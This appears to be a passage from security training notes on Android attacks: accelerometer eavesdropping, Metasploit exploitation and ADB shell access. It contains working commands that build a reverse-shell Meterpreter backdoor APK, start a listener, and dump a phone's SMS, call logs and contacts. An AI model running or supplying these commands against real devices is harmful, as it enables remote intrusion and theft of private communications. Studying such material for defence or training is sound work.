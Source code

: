 A spearphone attack exploits the accelerometer, a hardware-based motion sensor embedded in Android devices, to record loudspeaker data without requiring special permissions. Attackers can eavesdrop on loudspeaker voice conversations, including multimedia messages, voice assistant outputs, and audio files.

**Mechanism:**
- The accelerometer detects speech reverberations as the loudspeaker and sensor share the same device surface.
- Malicious apps can capture data and implement speech recognition to identify speakers, classify gender, and breach speech privacy.

---

### **Exploiting Android Devices Using Metasploit**

The Metasploit Framework allows attackers to exploit Android devices through custom or built-in payloads and exploits.

**Steps:**
1. **Identify Exploits and Payloads:**
   - `msf > search type:exploit platform:android`
   - `msf > search type:payload platform:android`

2. **Create a Custom Payload:**
   ```bash
   msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=<Local Host IP> LPORT=<Port> R > Desktop/Backdoor.apk
   ```

3. **Set Up the Listener:**
   ```bash
   msf > use exploit/multi/handler
   msf > set PAYLOAD android/meterpreter/reverse_tcp
   msf > set LHOST <Local Host IP>
   msf > set LPORT <Port>
   msf > exploit
   ```

4. **Gather Data via Meterpreter Commands:**
   - View network configuration: `ipconfig`
   - List running processes: `ps`
   - Dump SMS, call logs, and contacts: `dump_sms`, `dump_calllog`, `dump_contacts`
   - Access camera: `webcam_list`

---

### **Analyzing Android Devices**

Analyzing Android devices involves examining their system, behavior, and vulnerabilities. The **ADB command-line tool** provides attackers with shell access to perform various malicious activities.

#### **Accessing Android Device through Shell**
1. Connect the device to a computer via USB and enable TCP/IP connections on port 5555:
   ```bash
   adb tcpip 5555
   ```
2. Disconnect the USB and connect over Wi-Fi:
   ```bash
   adb connect <device_ip_address>
   ```
3. Confirm connection:
   ```bash
   adb devices
   ```
4. Open a shell on the device:
   ```bash
   adb shell
   ```
